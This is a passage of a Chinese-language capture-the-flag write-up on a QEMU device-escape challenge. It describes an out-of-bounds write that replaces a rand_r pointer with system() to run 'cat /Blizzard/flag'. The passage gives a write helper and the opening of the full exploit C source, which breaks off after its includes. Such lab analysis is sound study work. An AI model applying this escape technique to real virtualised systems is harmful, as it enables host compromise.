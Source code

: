 可以看到偏移为0x114，所以我们直接越界写，把system的地址覆盖进去就可以了，对应越界写的代码：仍然是首先使用strng_pmio_write设置opaque->addr，即当addr为0时，传入的val会直接赋值给opaque->addr；然后调用strng_pmio_write，并设置addr为4，即会去将此次传入的val写入到regs[opaque->addr >> 2]中，实现越界写，代码如下：

```
void pmio_abwrite(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}
```

对应的参数，offset就应该是0x114,然后value就是system的地址，然后我们动调一下看我们是否成功的写入了进去，如下图所示：

![](11.png)

![](12.png)

可以看到我们成功的把system写入到了rand_r处，下面就剩最后一步了，现在rand_r就是systen，regs[2]就是"cat /Blizzard/flag"，现在我们只需要调用strng_mmio_write函数，并且让addr右移2位之后等于3即可，然后就会调用cat flag了，动调addr的值如下所示：

![](13.png)

完整exp如下(别人编写的，此篇文章只是分析，所以没有自己再写一个wp)：

```
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
#include <stdint.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc050;


void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

```